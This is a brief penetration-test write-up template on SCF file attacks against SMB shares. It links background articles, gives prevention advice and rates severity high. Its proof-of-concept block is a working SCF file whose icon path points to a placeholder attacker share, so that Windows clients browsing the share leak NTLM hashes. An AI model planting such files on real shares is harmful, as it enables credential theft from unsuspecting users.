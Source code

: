 



### Nmap Scan Results: 


### Initial Shell Vulnerability Exploited: 
- [SMB Share - SCF File Attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/).
- [USING A SCF FILE TO GATHER HASHES](https://1337red.wordpress.com/using-a-scf-file-to-gather-hashes/).

### Vulnerability Explanation: 

### Vulnerability Prevention: 
- Disallow write permissions in file shares for unauthenticated users
- Use of Kerberos Authentication and SMB Signing
- Ensure that NTLMv2 password hash is used instead of LanMan

### Severity: High

### Proof of Concept Code Here:
```
[Shell]
Command=2
IconFile=\\IP\share\test.ico
[Taskbar]
Command=ToggleDesktop
```

